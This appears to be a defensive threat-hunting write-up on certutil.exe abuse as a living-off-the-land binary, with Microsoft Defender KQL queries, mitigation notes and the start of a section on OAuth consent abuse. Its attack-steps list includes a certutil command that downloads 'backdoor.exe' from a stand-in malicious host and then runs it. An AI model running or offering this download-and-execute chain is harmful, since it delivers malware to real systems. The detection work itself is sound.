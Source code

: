 ## Reason for the Hunt:
Tool-Based Abuse (LOLBins)
Certutil.exe is often abused to download malicious files via command-line.

---

## Steps the "Bad Actor" Took to Create Logs and IoCs:
1. Launched cmd or PowerShell as user/admin.
2. Ran certutil -urlcache -split -f http://evil[.]site backdoor.exe
3. Dropped the file in %TEMP% or %AppData%.
4. Executed the payload.

---

## Tables Used to Detect IoCs:
| **Name** | **Description** |
|----------|----------------|
| DeviceProcessEvents | certutil.exe use |
| DeviceFileEvents | backdoor.exe creation |
| DeviceNetworkEvents | connection to malicious domain |

---

## Related Queries (KQL):
```kql
DeviceProcessEvents
| where FileName == "certutil.exe" and ProcessCommandLine contains "http"

DeviceFileEvents
| where FileName == "backdoor.exe" 
```

---


---

## Additional Notes:
- Certutil is a known LOLBin.
- Can be disabled or audited via AppLocker or Microsoft Defender Attack Surface Reduction (ASR).


# Threat Event (OAuth Consent Grant Abuse)
**Malicious App Gained Access to Mail and Drive**

## Reason for the Hunt:
Cloud & SaaS Threat Intel Advisory
Threat actors are tricking users into consenting to malicious Microsoft 365 or Google apps with elevated permissions.

---